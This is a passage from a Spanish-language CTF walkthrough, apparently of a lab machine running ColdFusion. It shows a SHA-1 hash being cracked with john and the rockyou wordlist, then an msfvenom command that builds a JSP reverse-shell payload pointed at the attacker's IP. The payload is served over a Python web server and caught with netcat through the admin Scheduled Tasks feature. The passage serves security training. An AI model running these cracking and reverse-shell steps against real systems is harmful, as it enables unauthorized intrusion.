 Al parecer el tipo de cifrado es `SHA-1` por lo que guardo el hash en un archivo y ejecuto john para decifrar la contraseña.

```console
intrusionz3r0@kali:~$ john -w=/usr/share/wordlists/rockyou.txt --format=raw-sha1 hash  
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 SSE2 4x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)
1g 0:00:00:00 DONE (2020-08-27 16:27) 2.380g/s 12180p/s 12180c/s 12180C/s jodie..gabita
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```
**¡¡Eureka!!**

Contraseña: `happyday`.

Ahora intentare iniciar sesión en el login.


![](https://lh4.googleusercontent.com/QrTtDqQNIUggHoE_M-_QCTTRIImn7lFHGx0uUFhb5fMhbsBcboSOBZagEWhjIPl5bO11wfjzMGrFKVHSLt23dS3BLBEKZxurUHqqf-IwhGQFOkHz3Wl_QufbmWZGjE3b4gPrvdIT)

# Shell como el usuario tolis.


Para este punto, nosotros debemos de enumerar la aplicación para ver si existen puntos explotables.

En este caso hay un apartado en la aplicación donde se nos permite subir archivos.

Este se encuentra en: **DEBUGGING & LOGGING** -> **Scheduled Tasks**.

Ahí nosotros podremos subir archivos pero el problema es que nosotros no sabemos que tipo de archivos es capaz de interpretar el `ColdFusion`.

Hago una búsqueda en Google y encuentro lo siguiente:

![](https://lh3.googleusercontent.com/amSDBpbAsiwBVtK0iNjy3_4MwGZLwduZU-McOlTfcCxSCiMiZ2_Z3L292hNy_dHPuTO_yegrPRweVIn9Pm4tCMfNe4B1TfLPMphNwXmQyzbD3ozAhhPN9yZ3E_GBgY8iGSAO_tCL)

El lenguaje de programación en el que fue programado la plataforma es `Java` por lo que es muy probable de que acepte archivos `JSP`.

Para explotar la aplicación crearemos un payload con msfvenom.

```console
intrusionz3r0@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.20 LPORT=1234 -f raw > shell.jsp
Payload size: 1497 bytes
```
Levantamos un servidor con python que comparta nuestro payload y dejamos nuestro netcat a la escucha de cualquier conexión entrante.

![](https://lh5.googleusercontent.com/JBnpI7H9ObV2d_If2DpyF9T5NLFbq_L3oC_d6DsOvqz66hLJKuJYJltqB5dAPVaG5etX261H884DCJUg0vIVcMdDZptNQOkHWwWYPq4AxlmFkuYzaObskiGrSzrRliSZaXonegA2)

Ahora solo creamos la tarea programable.

![](https://lh4.googleusercontent.com/MRdVA5PIYJRGjVMoy8K5hC02BmVIbrDc2Cb2dgErctc-zwArqwjjnwNVediAicYyvv0EenECiuoe0H1eaPik7PDBKLqqyv_FaJJQx1_kO1hUvf7yXTXMPMWBFmScFkpYVpqUBPkA)
